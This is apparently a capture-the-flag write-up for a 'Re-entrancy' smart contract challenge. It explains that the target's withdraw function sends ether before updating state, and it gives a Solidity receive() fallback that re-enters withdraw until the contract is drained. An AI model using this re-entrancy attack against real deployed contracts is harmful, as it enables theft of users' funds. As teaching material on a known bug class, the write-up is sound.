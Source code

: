 # Re-entrancy

---
Objective: 
- Your goal is to break it.
---

Notes:

Only place where eth is sent out is in the `withdraw`
`(bool result,) = msg.sender.call{value:_amount}("");`

We send some eth, and get it. Then try to fallback to the withdraw function to withdrawl more

Since it thinks we are just a person, but we could be a contract. So we can execute code inside and re-enter the contract with calling `withdraw` until it is drained. 

```solidity
receive() external payable {
    uint amount = min(1e18, address(target).balance);
    if (amount > 0) {
        target.withdraw((1e18));
    }
}
```